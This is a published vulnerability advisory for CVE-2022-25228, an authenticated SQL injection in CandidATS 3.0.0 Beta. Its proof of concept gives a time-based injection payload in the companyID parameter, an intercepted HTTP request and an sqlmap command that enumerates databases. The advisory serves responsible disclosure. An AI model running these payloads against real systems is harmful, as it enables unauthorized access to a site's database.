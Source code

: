 ```yaml
---
slug: advisories/jackson/
title: CandidATS 3.0.0 - Authenticated SQL Injection
authors: Oscar Uribe
writer: ouribe
codename: jackson
product: CandidATS Version 3.0.0 Beta (Pilava Beta)
date: 2022-04-20 10:00 COT
cveid: CVE-2022-25228
severity: 6.3
description: CandidATS Version 3.0.0 - Authenticated SQL Injection
keywords: Fluid Attacks, Security, Vulnerabilities, Candidats, SQLi
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                          |
| --------------------- | -------------------------------------------------------- |
| **Name**              | CandidATS 3.0.0 - Authenticated SQL Injection            |
| **Code name**         | [Jackson](https://en.wikipedia.org/wiki/Michael_Jackson) |
| **Product**           | CandidATS                                                |
| **Affected versions** | Version 3.0.0 Beta (Pilava Beta)                         |
| **State**             | Public                                                   |
| **Release date**      | 2022-07-19                                               |

## Vulnerability

|                       |                                                                                  |
| --------------------- | -------------------------------------------------------------------------------- |
| **Kind**              | SQL injection                                                                    |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146) |
| **Remote**            | Yes                                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:L                                     |
| **CVSSv3 Base Score** | 6.3                                                                              |
| **Exploit available** | No                                                                               |
| **CVE ID(s)**         | [CVE-2022-25228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25228)  |

## Description

CandidATS Version 3.0.0 Beta allows an authenticated user to inject SQL
queries in `/index.php?m=settings&a=show` via the `userID` parameter,
in `/index.php?m=candidates&a=show` via the `candidateID`,
in `/index.php?m=joborders&a=show` via the `jobOrderID`
and `/index.php?m=companies&a=show` via the `companyID` parameter

## Proof of Concept

1. Log in to CandidATS with a user who has permissions
   to read job orders, candidates or companies.

2. Go to `index.php?m=joborders` (or any of the option above).

3. Uncheck the `Only My Companies` option.

4. Select any of the items listed and
   intercept the request with BurpSuite.

5. It is possible to inject sql sentences inside
   the companyID parameter, for example, the following
   request will make the database sleep for 5 seconds.

  ```http
  GET /candidATS/index.php?m=companies&a=show&companyID=2+or+sleep(5) HTTP/1.1
  ```

6. Save the intercepted request into a file.

  ```http
  GET /candidATS/index.php?m=companies&a=show&companyID=2 HTTP/1.1
  Host: 172.16.28.136
  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Connection: close
  Cookie: CATS=dji5p76l4ajdpubegkt552ma9n
  Upgrade-Insecure-Requests: 1
  ```

7. Run the following command from sqlmap in order
   to extract information from the database.

  ```bash
  $ sqlmap -r companyId.req -p companyID --dbs --batch
  ```

## Exploit

It is possible to use sqlmap in order to
extract information from the database

## Mitigation

This information will be released later according to our
[Responsible Disclosure Policy](../policy/).

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

**Vendor page** <https://candidats.net/forums/>

## Timeline

<time-lapse
  discovered="2022-04-19"
  contacted="2022-04-19"
  replied="2022-04-20"
  confirmed="2022-04-20"
  patched=""
  disclosure="2022-07-19">
</time-lapse>
